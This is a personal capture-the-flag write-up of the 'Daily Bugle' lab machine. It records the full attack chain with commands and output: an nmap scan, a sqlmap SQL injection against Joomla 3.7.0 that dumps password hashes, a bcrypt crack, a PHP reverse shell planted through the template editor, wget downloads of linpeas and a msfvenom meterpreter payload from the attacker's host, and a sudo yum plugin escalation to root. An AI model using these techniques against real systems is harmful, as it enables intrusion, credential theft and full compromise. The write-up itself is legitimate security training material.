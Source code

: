 # Daily Bugle Notes
___

# My IP = 10.8.19.163

# Target IP = 10.10.97.242*
* Connection and machines can volatile so several IPs may for the target may change throughout the write-up due to machine restarts.
----
# NMAP Scan

> nmap -Pn -n -sC -sV -vv -T5 -A 10.10.97.242 | tee dailybugle.nmap

> cat dailybugle.nmap | grep 'open'

	Results: 

	22/tcp   open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
	80/tcp   open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
	3306/tcp open  mysql   syn-ack MariaDB (unauthorized)

----

___
# GoBuster

Results:

>/images (Status: 301)
>/templates (Status: 301)
>/media (Status: 301)
>/modules (Status: 301)
>/bin (Status: 301)
>/plugins (Status: 301)
>/includes (Status: 301)
>/language (Status: 301)
>/components (Status: 301)
>/cache (Status: 301)
>/libraries (Status: 301)
>/tmp (Status: 301) - might be able to run something from here
>/layouts (Status: 301)
>/administrator (Status: 301) ***
>/cli ****
___

1. Trying administrator page.

	Admin login for a service called joomla.

	Note that says the website has Javascript enabled for administrator backend.

2. Trying cli.

	Blank white page. Maybe can be used to extract data later on.

# SQLMAP

1. Discovered README.txt. A readme file for joomla administration. 

> Joomla version 3.7.0.

Searched for exploit. Open to SQL Injection. Exploit-db URL:

> sqlmap -u "http://10.10.140.23/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --dump -D joomla -T "#__users"

2. Ran SQLMAP command. Results:

Discovered several tables in DB "joomla".

Reran command with "--dump -D joomla -T "#__users"". Performed column tests on "#__users" table. 

	Results:

	+------+---------------------+------------+---------+----------+--------------------------------------------------------------+
	| id   | email               | name       | params  | username | password                                                     |
	+------+---------------------+------------+---------+----------+--------------------------------------------------------------+
	| 811  | jonah@tryhackme.com | Super User | <blank> | jonah    | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
	+------+---------------------+------------+---------+----------+--------------------------------------------------------------+

# John The Ripper

> john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt pass.txt 

> Password : spiderman123

# Reverse Shell

1. Googled a way to get the template editor on the daily bugle Joomla admin page. Edited the "jsstring.php" then selected template preview after creating a Netcat session.

> http://10.10.81.253/administrator/index.php?option=com_templates&view=template&id=503&file=L2pzc3RyaW5ncy5waHA

> nc -lnvp 6666

Added pentest monkeys PHP rev shell code to the js strings code after removing the original PHP code. 

> template preview.

SHELL CREATED!

Looking for flags and maybe an ssh key.

Creating a "simple http server to have the target download linpeas"

>  python -m SimpleHTTPServer 8000

Moved Linpeas into my  daily bugle folder.

> wget http://10.8.19.163:8000/linpeas.sh

Discovered a public password in php file from linpeas.

# SSH

Connected to SSH session as user "jjameson"

> ssh -l jjameson 10.10.81.253		Password: nv5uz9r3ZEDzVjNu

Success!

> whoami -

> cd /jjameson/Desktop

> cat user.txt - 27a260fe3cba712cfdedb1c86d80442e

# Privilege Escalation

1. Gain meterpreter shell.

	1. cd to /tmp and wget a meterpreter shell.

	> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.8.19.163 LPORT=11200 -f elf > shell.elf

	> wget http://10.8.19.163:8000/shell.elf
		
		> chmod +x shell.elf

	> Metasploit multi handler for shell.

		> Set options and run.

SUCCESS!!!!!!

# Meterpreter

> getuid - unknown commands

1. Try a priv escalation helper in MS.

> run post/multi/recon/local_exploit_suggester

No luck.

# Back to SSH Shell

1. Went to temp and discovered php files that run as root. Maybe I can create a root level shell and replace one of the files?

> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.8.19.163 LPORT=11200 -f php > deletefiles.php

> permission denied on the wget.

# GTFO Bins YUM for privilege escalation

>[jjameson@dailybugle tmp]$ TF=$(mktemp -d)
>[jjameson@dailybugle tmp]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
>[jjameson@dailybugle tmp]$ 
>[jjameson@dailybugle tmp]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
>[jjameson@dailybugle tmp]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
>[jjameson@dailybugle tmp]$ 
>[jjameson@dailybugle tmp]$ sudo yum -c $TF/x --enableplugin=y
>Loaded plugins: y
>No plugin match for: y
>sh-4.2# whoami
>root
>sh-4.2# pwd
>/tmp
>sh-4.2# cd /root
>sh-4.2# ls
>anaconda-ks.cfg  root.txt
>sh-4.2# cat root.txt
>eec3d53292b1821868266858d7fa6f79

# Finished!

	

